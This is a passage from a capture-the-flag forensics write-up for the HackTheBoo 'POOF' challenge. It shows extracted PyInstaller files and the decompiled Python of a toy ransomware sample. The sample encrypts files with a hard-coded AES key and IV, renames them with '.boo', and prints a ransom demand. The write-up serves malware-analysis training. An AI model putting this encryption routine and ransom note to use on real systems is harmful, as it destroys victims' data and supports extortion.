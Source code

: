 ```
-rw-r--r-- 1 root root 3.6K Oct 27 04:58 pyimod04_ctypes.pyc
-rw-r--r-- 1 root root  672 Oct 27 04:58 pyi_rth_inspect.pyc
-rw-r--r-- 1 root root 1.1K Oct 27 04:58 pyi_rth_pkgutil.pyc
-rw-r--r-- 1 root root  809 Oct 27 04:58 pyi_rth_subprocess.pyc
-rw-r--r-- 1 root root 1.3M Oct 27 04:58 PYZ-00.pyz
drwxr-xr-x 2 root root 4.0K Oct 27 04:58 PYZ-00.pyz_extracted
-rw-r--r-- 1 root root  293 Oct 27 04:58 struct.pyc
```

**Then, we can decompile the `pyc` to `py`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBoo/Forensics/POOF/images/a9.png)

**Since my `uncompyle6` is kinda broken, I'll use an [online tool](https://www.toolnb.com/tools-lang-en/pyc.html) to decompile it:**
```
┌──(root🌸siunam)-[~/…/HackTheBoo/Forensics/POOF/pygaming-dev-13.37]
└─# uncompyle6 -h
I don't know about Python version '3.10.7' yet.
Python versions 3.9 and greater are not supported.
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBoo/Forensics/POOF/images/a10.png)

```py
from Crypto.Cipher import AES
from sys import exit
import random, string, time, os

def Pkrr1fe0qmDD9nKx(filename: str, data: bytes) -> None:
    open(filename, 'wb').write(data)
    os.rename(filename, f"{filename}.boo")


def mv18jiVh6TJI9lzY(filename: str) -> None:
    data = open(filename, 'rb').read()
    key = 'vN0nb7ZshjAWiCzv'
    iv = 'ffTC776Wt59Qawe1'
    cipher = AES.new(key.encode('utf-8'), AES.MODE_CFB, iv)
    ct = cipher.encrypt(data)
    Pkrr1fe0qmDD9nKx(filename, ct)


def w7oVNKAyN8dlWJk() -> str:
    letters = string.ascii_lowercase + string.digits
    _id = ''.join(random.choice(letters) for i in range(32))
    return _id


def print_note() -> None:
    _id = w7oVNKAyN8dlWJk()
    banner = f"\n\nPippity poppity give me your property!\n\n\t   *                  ((((\n*            *        *  (((\n\t   *                (((      *\n  *   / \\        *     *(((    \n   __/___\\__  *          (((\n\t (O)  |         *     ((((\n*  '<   ? |__ ... .. .             *\n\t \\@      \\    *    ... . . . *\n\t //__     \t// ||\\__   \\    |~~~~~~ . . .   *\n====M===M===| |=====|~~~~~~   . . .. .. .\n\t\t *  \\ \\ \\   |~~~~~~    *\n  *         <__|_|   ~~~~~~ .   .     ... .\n\t\nPOOF!\n\nDon't you speak English? Use https://translate.google.com/?sl=en&tl=es&op=translate \n\nYOU GOT TRICKED! Your home folder has been encrypted due to blind trust.\nTo decrypt your files, you need the private key that only we possess. \n\nYour ID: {_id}\n\nDon't waste our time and pay the ransom; otherwise, you will lose your precious files forever.\n\nWe accept crypto or candy.\n\nDon't hesitate to get in touch with cutie_pumpkin@ransomwaregroup.com during business hours.\n\n\t"
    print(banner)
    time.sleep(60)


```